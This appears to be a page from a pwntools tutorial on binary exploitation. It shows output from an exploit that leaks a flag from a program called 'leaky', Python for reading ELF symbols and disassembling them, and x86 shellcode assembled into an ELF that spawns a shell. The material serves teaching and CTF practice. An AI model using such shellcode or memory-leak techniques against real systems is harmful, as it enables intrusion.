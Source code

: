 ```
[*] Sending request for offset: -1
[*] Got back raw response: Okay, here you go: 0xffb14951 G
[*] Parsed char: G
[*] The flag is: SECRETFLAG
[*] Stopped program './leaky'
```

## Assembly and ELF manipulation
---

Pwntools can also be used for precision work, like working with ELF files and their symbols.

```python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

We can also write ELF files from raw assembly; this is very useful for testing shellcodes.

```python
#!/usr/bin/env python
from pwn import *

sh_shellcode = """
        mov eax, 11
        push 0
        push 0x68732f6e
        push 0x69622f2f
        mov ebx, esp
        mov ecx, 0
        mov edx, 0
        int 0x80
"""

e = ELF.from_assembly(sh_shellcode, vma=0x400000)

with open('test_shell', 'wb') as f:
    f.write(e.get_data())
```

> This will result in a binary named test_shell which executes the necessary assembly code to spawn a shell.
> ```bash
> $ chmod u+x test_shell
> $ ./test_shell
> ```
